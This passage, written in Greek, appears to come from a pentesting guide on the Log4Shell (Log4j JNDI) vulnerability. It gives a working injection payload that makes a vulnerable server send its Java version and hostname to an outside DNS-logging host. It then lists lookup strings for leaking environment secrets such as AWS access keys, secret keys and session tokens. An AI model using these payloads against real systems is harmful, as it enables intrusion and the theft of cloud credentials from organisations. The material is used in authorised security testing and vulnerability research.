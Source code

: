 Για παράδειγμα, θα μπορούσατε να ζητήσετε κάτι όπως:\
ή όπως `${`**`jndi:ldap://jv-${sys:java.version}-hn-${hostName}.ei4frk.dnslog.cn/a}`** και αν ληφθεί **αίτημα DNS με την τιμή της μεταβλητής env**, γνωρίζετε ότι η εφαρμογή είναι ευάλωτη.

Άλλες πληροφορίες που θα μπορούσατε να προσπαθήσετε να **διαρρεύσετε**:
```
${env:AWS_ACCESS_KEY_ID}
${env:AWS_CONFIG_FILE}
${env:AWS_PROFILE}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_SHARED_CREDENTIALS_FILE}
${env:AWS_WEB_IDENTITY_TOKEN_FILE}
${env:HOSTNAME}
${env:JAVA_VERSION}
${env:PATH}
${env:USER}
${hostName}
${java.vendor}
${java:os}
${java:version}
${log4j:configParentLocation}
${sys:PROJECT_HOME}
${sys:file.separator}
${sys:java.class.path}
${sys:java.class.path}
${sys:java.class.version}
${sys:java.compiler}
${sys:java.ext.dirs}
${sys:java.home}
${sys:java.io.tmpdir}
${sys:java.library.path}
${sys:java.specification.name}
${sys:java.specification.vendor}
${sys:java.specification.version}
${sys:java.vendor.url}
${sys:java.vendor}
${sys:java.version}
${sys:java.vm.name}
${sys:java.vm.specification.name}
${sys:java.vm.specification.vendor}
${sys:java.vm.specification.version}
${sys:java.vm.vendor}
${sys:java.vm.version}
${sys:line.separator}
${sys:os.arch}
${sys:os.name}
${sys:os.version}
${sys:path.separator}
${sys:user.dir}
${sys:user.home}
${sys:user.name}

Any other env variable name that could store sensitive information
```
### RCE Information
